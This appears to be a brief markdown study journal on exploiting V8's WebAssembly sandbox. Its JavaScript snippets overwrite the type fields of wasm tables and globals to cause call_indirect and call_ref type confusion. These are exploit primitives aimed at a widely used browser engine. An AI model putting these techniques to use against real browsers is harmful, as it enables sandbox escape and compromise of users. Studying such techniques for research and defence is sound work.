

## Day 1: call_indirect

- **call_indirect** used for calling a function in the wasm table

=> so we can overwrite `raw_type` of table `entries` in this table

Example:
```js
// Put a WasmJSFunction into table1 while it still has type $sig1.
table1.set(0, new WebAssembly.Function(
  {parameters: [], results: ['i64']},
  () => BigInt(Sandbox.targetPage)));

// // Now set table1's type to $sig0.
let t0 = getPtr(table0);
let t1 = getPtr(table1);
let t0_type = getField(t0, kWasmTableObjectTypeOffset);
let expected_old_type = (($sig1 << kHeapTypeShift) | kRef) << kSmiTagSize;
setField(t1, kWasmTableObjectTypeOffset, t0_type);
```




## Day 2: call_ref

- **call_ref** used for calling a function by global value, it litterally looks like that:

=> reading more about typed function type references for Webassembly proposal:  https://github.com/WebAssembly/gc/blob/main/proposals/function-references/Overview.md

```js
let $fn = builder.addGlobal(wasmRefType($sig_v_ll), true, false, [kExprRefFunc, $nop.index]).exportAs("fn");
builder.addFunction("boom", $sig_v_ll)
  .exportFunc()
  .addBody([
    kExprLocalGet, 1,
    kExprLocalGet, 0,
    kExprGlobalGet, $fn.index,
    kExprCallRef, $sig_v_ll, // call_ref
  ]);
```

By overwritting `raw_type` of global variable, we can get confuse input type of wasm function also

```js
setField(getPtr(fn), kWasmGlobalObjectRawTypeOffset, new_type);
```